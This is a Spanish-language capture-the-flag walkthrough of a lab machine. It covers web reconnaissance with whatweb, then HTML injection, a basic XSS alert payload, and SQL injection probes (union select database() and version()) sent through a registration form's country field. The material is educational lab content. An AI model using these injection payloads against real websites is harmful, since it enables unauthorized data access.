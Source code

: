 
### Analysando el puerto 80 {-}

#### Whatweb {-}

```bash
whatweb http://10.10.11.116
```

Vemos que estamos frente una maquina Debian con un apache 2.4.48 y PHP 7.4.23

```bash
whatweb http://10.10.11.116:8080
```

Esto nos muestra un bad gateway.

#### Analysis manual {-}

Con firefox vamos a la url `http://10.10.11.116` y vemos una pagina que nos permite registrar personas

```bash
admin - Brazil
s4vitar - Brazil
```

Intentamos cosas

```bash
<h1>Hola</h1>
```

Vemos que la web es vulnerable a HTML Injection.


```bash
<script>alert("hola")</script>
```

Y tambien a injeccion XSS. Pero como no estamos ni si quiera authenticado, no vamos a poder robar nada.

```bash
admin'
```

Nos pone `admin'`. Vamos a ver si el input del pays es vulnerable, para esto utilizamos burpsuite.

## Vulnerability Assessment {-}

### Analysando SQLI con Burpsuite {-}

Intentamos cambiar el pays.

```bash
username=admin&country=Brazil'-- -
username=admin&country=Brazil' union select 1-- -
username=admin&country=Brazil' union select database()-- -
username=admin&country=Brazil' union select version()-- -
```
